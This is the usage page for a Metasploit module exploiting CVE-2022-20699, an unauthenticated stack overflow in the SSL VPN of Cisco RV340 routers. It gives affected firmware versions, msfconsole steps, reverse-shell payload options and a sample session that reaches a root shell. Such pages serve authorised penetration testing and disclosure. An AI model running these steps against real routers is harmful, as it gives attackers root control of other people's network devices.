 ## Description

This module exploits a stack buffer overflow ([CVE-2022-20699](https://nvd.nist.gov/vuln/detail/CVE-2022-20699)) in the [Cisco RV series](https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-smb-mult-vuln-KA9PK6D.html) routers SSL VPN functionality. The default SSL VPN configuration is exploitable, with no authentication required and works over the Internet as seen in [this video](https://www.youtube.com/watch?v=O1uK_b1Tmts)!

The stack is executable and no ASLR is in place, which makes exploitation easier.
Successful execution of this module results in a reverse root shell. A custom payload is used as Metasploit does not have ARMLE null free shellcode.
This vulnerability was presented by the [Flashback Team](https://twitter.com/flashbackpwn) in [Pwn2Own Austin 2021](https://www.thezdi.com/blog/2021/11/1/pwn2ownaustin) and [OffensiveCon 2022](https://www.offensivecon.org/speakers/2022/radek-domanski-and-pedro-ribeiro.html).

This module has been tested in firmware versions 1.0.03.15 and above and works with around 65% reliability. The service restarts automatically so you can keep trying until you pwn it.

Only the [RV340 router](https://www.cisco.com/c/en/us/products/routers/rv340-dual-gigabit-wan-vpn-router/index.html) was tested, but other RV series routers should work out of the box.

For more information, check the advisory [here](https://github.com/pedrib/PoC/blob/master/advisories/Pwn2Own/Austin_2021/flashback_connects/flashback_connects.md) and [here](https://github.com/rdomanski/Exploits_and_Advisories/blob/master/advisories/Pwn2Own/Austin2021/flashback_connects/flashback_connects.md).


## Vulnerable Application

Cisco RV340 Router, firmware versions 1.0.03.24 and below. The bug is fixed in 1.0.03.26 and above.

## Verification Steps

  1. Connect to the target on the WAN interface (or provide IP address)
  2. Make sure the SSLVPN service is turned on for the correct WAN interface
  2. Start msfconsole
  3. Do: `use exploits/linux/misc/cisco_rv340_sslvpn.rb`
  4. Set RHOST, RPORT, LHOST and LPORT
  5. Do `check`
  6. Do: `run`
  7. You should get a shell.

## Options
```
Module options (exploit/linux/misc/cisco_rv340_sslvpn):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    8443             yes       The target port (TCP)
   SSL      true             yes       Use SSL
   VHOST                     no        HTTP server virtual host


Payload options (linux/armle/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   ARGV0  sh               no        argv[0] to pass to execve
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/sh          yes       The shell to execute.


Exploit target:

   Id  Name
   --  ----
   0   Cisco RV340 Firmware Version <= 1.0.03.24
```

## Scenarios
```
msf6 exploit(linux/misc/cisco_rv340_sslvpn) > check
[*] 5.55.55.62:8443 - The service is running, but could not be validated.
msf6 exploit(linux/misc/cisco_rv340_sslvpn) > exploit

[*] Started reverse TCP handler on 5.55.55.1:4445
[*] 5.55.55.62:8443 - 5.55.55.62:8443 - Pwning Cisco RV340 Firmware Version <= 1.0.03.24
[*] Command shell session 30 opened (5.55.55.1:4445 -> 5.55.55.62:41976 ) at 2022-02-10 20:12:18 +0000

id
uid=0(root) gid=0(root)
uname -a
Linux router138486 4.1.8 #2 SMP Fri Oct 22 09:50:26 IST 2021 armv7l GNU/Linux
```

